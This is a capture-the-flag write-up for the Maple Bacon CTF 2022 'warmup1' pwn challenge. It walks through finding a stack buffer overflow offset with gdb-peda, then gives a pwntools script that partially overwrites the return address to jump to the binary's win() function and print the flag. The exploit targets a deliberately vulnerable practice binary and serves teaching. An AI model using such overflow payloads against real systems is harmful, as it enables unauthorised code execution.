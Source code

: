# Maple Bacon CTF 2022 - Pwn - warmup1
Author: =)#9593
Release Date: August 26, 2022

## Challege Description
It's like warmup2, but easier

## Tools Used
- Ghidra
- readelf
- gdb + peda
- python3 + pwntools

## Write Up

Given:

link to a nc listner and a executable

```
$ file chal              
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24a5eb328ee598833e93f2091ddeb2f9554ca9b5, for GNU/Linux 3.2.0, not stripped
```

No Stripped, thats good.

Decompile the program in Ghidra. And we see 3 functions:

main()
![main](./img/01_main.png)

vuln()
![vuln](./img/02_vuln.png)

win()
![win](./img/03_win.png)

Looks like we need to create a buffer offerflow to run the win() function. Lets find out the memory address of the win function:

```
$ readelf -s chal | grep FUNC    
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND alarm@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@GLIBC_2.2.5 (2)
    10: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND [...]@GLIBC_2.2.5 (2)
    29: 00000000000010f0     0 FUNC    LOCAL  DEFAULT   16 deregister_tm_clones
    30: 0000000000001120     0 FUNC    LOCAL  DEFAULT   16 register_tm_clones
    31: 0000000000001160     0 FUNC    LOCAL  DEFAULT   16 __do_global_dtors_aux
    34: 00000000000011a0     0 FUNC    LOCAL  DEFAULT   16 frame_dummy
    45: 0000000000001000     0 FUNC    LOCAL  DEFAULT   12 _init
    46: 00000000000012c0     5 FUNC    GLOBAL DEFAULT   16 __libc_csu_fini
    50: 00000000000011a9    37 FUNC    GLOBAL DEFAULT   16 vuln
    53: 00000000000012c8     0 FUNC    GLOBAL HIDDEN    17 _fini
    54: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setbuf@@GLIBC_2.2.5
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND alarm@@GLIBC_2.2.5
    56: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@@GLIBC_2.2.5
    57: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    62: 0000000000001250   101 FUNC    GLOBAL DEFAULT   16 __libc_csu_init
    63: 0000000000001219    47 FUNC    GLOBAL DEFAULT   16 win
    65: 00000000000010c0    47 FUNC    GLOBAL DEFAULT   16 _start
    67: 00000000000011ce    75 FUNC    GLOBAL DEFAULT   16 main
    70: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@@GLIBC_2.2.5
    71: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@@[...]
```
Looks like it is at 0000000000001219. Least Significant bit is \x19.

Next we need to find the offset:

Create a pattern:

```
gdb-peda$ pattern create 128
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOA'
```

Run the program and input the pattern:

![Offset](./img/04_offset.png)

We found the offset of 24. Lets test it out. Create a pattern and add "CCCC" to it. run the program and input the pattern plus the 4 Cs (43 in hex). 

```
gdb-peda$ pattern create 24
AAA%AAsAABAA$AAnAACAA-AA
```

![OffsetConfirm](./img/05_offsetTest.png)


Cool now we confirmed the offset. Let write a payload to exploit this

```python
#!/usr/bin/env python3

import pwn

offset = 24
winfunc = b'\x19'

# Local File
io = pwn.ELF("./chal").process()

# Remote 
#io = remote('warmup1.ctf.maplebacon.org', 1337)

io.send(b'A' * offset + winfunc)

print(io.recv())
```
We run the exploit:

```
python3 exploit.py
[*] '/home/shelldrake/Downloads/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/shelldrake/Downloads/chal': pid 43423
b'maple{winwinwin}\n'
[*] Process '/home/shelldrake/Downloads/chal' stopped with exit code 0 (pid 43423)
```
There's your flag.